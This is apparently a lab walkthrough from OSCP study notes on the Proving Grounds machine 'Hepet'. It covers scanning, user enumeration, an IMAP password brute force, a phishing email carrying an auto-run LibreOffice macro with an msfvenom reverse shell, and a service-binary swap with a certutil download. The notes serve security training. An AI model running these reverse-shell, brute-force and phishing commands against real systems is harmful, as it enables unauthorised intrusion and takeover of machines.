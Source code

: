 #### Walkthrough

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Walkthrough.png)

#### Enumeration

```
nmap -Pn -p- -sV 192.168.239.140 -T4 -oN Hepet.nmap
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 11:19 EDT
Nmap scan report for 192.168.239.140
Host is up (0.21s latency).
Not shown: 65522 filtered ports
PORT      STATE SERVICE        VERSION
25/tcp    open  smtp           Mercury/32 smtpd (Mail server account Maiser)
79/tcp    open  finger         Mercury/32 fingerd
105/tcp   open  ph-addressbook Mercury/32 PH addressbook server
106/tcp   open  pop3pw         Mercury/32 poppass service
110/tcp   open  pop3           Mercury/32 pop3d
143/tcp   open  imap           Mercury/32 imapd 4.62
443/tcp   open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
2224/tcp  open  http           Mercury/32 httpd
7680/tcp  open  pando-pub?
8000/tcp  open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
11100/tcp open  vnc            VNC (protocol 3.8)
20001/tcp open  ftp            FileZilla ftpd 0.9.41 beta
33006/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33006-TCP:V=7.91%I=7%D=8/16%Time=611A82E9%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LANDesk-RC,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(afp,4D,"I\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.07 seconds
```

All the http services don't seem to have vulnerabilities. Trying to use brute-force attatcks to find the useful information. The rockyou.txt wordlist
is not working so I generate wordlists from https website.

```
cewl -d 4 https://192.168.247.140 -w ~/Documents/OffSecPG/Hepet/wordlists.txt
```

Using ![finger-user-enum.pl](https://github.com/pentestmonkey/finger-user-enum) to enumerate users.

```
perl finger-user-enum.pl -U /usr/share/wordlists/names.txt -t 192.168.220.140 > finger_enum_log.txt
```

Finding existing users: Agnes, admin, Jonas, Magnus, Martha, Charlotte. The website also shows employees' information.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.27_00h40m35s_002_.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.27_00h41m04s_003_.png)

Only the IMAP service found is suitable for enumeration. Other services will block brute-force attacks.

```
hydra -l jonas -P ~/Documents/OffSecPG/Hepet/wordlists.txt 192.168.247.140 -s 143 imap
```

Getting a vaild passowd successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.25_23h51m41s_001_.png)

Logging in to pop3 service and read the email. The letter mentioned that their computers were installed with office software. The concept is sending an office file contain a malicious macro. (I am stuck here. Referring to offical walkthroughs below.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.26_00h27m32s_003_.png)

Creating a hta payload. We need to extract the command from it.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=80 -f hta-psh -o tmp.hta
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_01h32m52s_001_.png)

Because VBA's literal string can contain a maximum of 255 characters but the variable doesn't. So we have to separate the command string. Moditfying the codes whichever way you like. Then we create an ```ods``` file and add the marco.

(Installing LibreOffice ```sudo apt-get install libreoffice```)

Opening a empty calc and save as a ods file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_15h32m11s_001_.png)

Adding a new marco.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h15m17s_016_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h16m25s_017_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h17m25s_018_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h18m45s_019_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h21m09s_020_.png)

We set marco to execute when the ods file is opened.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h21m53s_021_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h22m38s_022_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h23m11s_023_.png)

Sending ods file and waiting for five minutes.

```
sendemail -f 'jonas@localhost' \                                                          
                       -t 'mailadmin@localhost' \
                       -s 192.168.220.140:25 \
                       -u 'file' \
                       -m 'file' \
                       -a shell.ods
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_19h19m26s_031_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h47m17s_024_.png)

#### Escalation

Finding services.

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```

Veyon service is installed in a folder that the user can access.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_18h53m44s_026_.png)

Creating a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=443 -f exe -o veyon-service.exe
```

We active the http server for file transfer.

```
python -m SimpleHTTPServer 8000 
```

The service could not be deleted, so use the move command. After that we download the reverse shell.

```
certutil -f -urlcache http://192.168.49.220:8000//veyon-service.exe veyon-service.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_19h12m12s_029_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_19h12m33s_030_.png)

Starting a new listener and rebooting.

```
shutdown /r
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.28_19h27m10s_032_.png)
